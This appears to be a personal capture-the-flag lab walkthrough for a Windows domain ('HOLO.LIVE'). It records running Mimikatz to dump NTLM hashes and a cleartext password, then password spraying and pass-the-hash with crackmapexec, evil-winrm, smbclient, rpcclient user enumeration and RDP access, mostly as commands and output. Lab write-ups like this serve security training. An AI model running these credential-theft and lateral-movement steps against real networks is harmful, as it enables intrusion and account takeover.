 
Let's run Mimikatz
```
http://10.51.9.13/mimikatz/x64/
```

```
python3 -m http.server 80
```

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

```
Username : S-SRV01$
NTLM     : 3179c8ec65934b8d33ac9ec2a9d93400
HA1     : fb4789d7ac8f1b2a46319fcb0ae10e616bd6a399
```

```
Username : watamet
NTLM     : d8d41e6cf762a8c77776a1843d4141c9
SHA1     : 7701207008976fdd6c6be9991574e2480853312d
DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0

Username : watamet
Domain   : HOLO.LIVE
Password : Nothingtoworry!
```


![[Pasted image 20240830041056.png]]


```
crackmapexec smb 10.201.11.31 -u valid_user.txt -p Nothingtoworry!
```


```
evil-winrm -u administrator -H 3179c8ec65934b8d33ac9ec2a9d93400 -i 10.201.11.35
```


```
evil-winrm -u watamet -password Nothingtoworry! -i 10.201.11.35
```

That didn't worked but we should always try for little hanging fruits
```
rdesktop -u watamet -p Nothingtoworry! 10.201.11.30
```

Read/Write
```
crackmapexec smb 10.201.11.30 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830043757.png]]

```
smbclient \\\\10.201.11.30\\SYSVOL -U 'watamet' 
```

-p 'Nothingtoworry!'


```
crackmapexec smb 10.201.11.35 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830044707.png]]

Finally RPC worked
```
rpcclient -U "watamet" 10.201.11.30
```

```
rpcclient $> srvinfo
        10.201.11.30   Wk Sv PDC Tim NT     
        platform_id     :       500
        os version      :       10.0
        server type     :       0x80102b

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ad-joiner] rid:[0x457]
user:[spooks] rid:[0x45a]
user:[cryillic] rid:[0x45b]
user:[PC-MGR] rid:[0x45c]
user:[SRV-ADMIN] rid:[0x45f]
user:[a-koronei] rid:[0x462]
user:[a-fubukis] rid:[0x466]
user:[koronei] rid:[0x467]
user:[fubukis] rid:[0x468]
user:[matsurin] rid:[0x469]
user:[mikos] rid:[0x46a]
user:[okayun] rid:[0x46b]
user:[watamet] rid:[0x46c]
user:[gurag] rid:[0x46d]
user:[cocok] rid:[0x46e]
user:[ameliaw] rid:[0x46f]
user:[WEB-MGR] rid:[0x470]
```


```
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x456]
```


So from the data we have gathered it's either Relay attack or Pass the hash

```
crackmapexec smb 10.201.11.0/24 -u Administrator -d . -H 3179c8ec65934b8d33ac9ec2a9d93400
```

```
crackmapexec smb 10.201.11.0/24  -u 'watamet' -p 'Nothingtoworry!'
```

![[Pasted image 20240830142532.png]]

```
crackmapexec smb 10.201.11.35 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830142737.png]]

```
smbclient //10.201.11.35/Users -U watamet --password='Nothingtoworry!'
```

The above command didn't worked

```
smbclient //10.201.11.35/Users -U watamet -W holo.live
```
![[Pasted image 20240830143400.png]]


```
HOLO{2cb097ab8c412d565ec3cab49c6b082e} 
```

We got the RDP access as well 
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.35 /u:'holo.live\watamet' /p:'Nothingtoworry!'
```

which to be honest i didn't tried

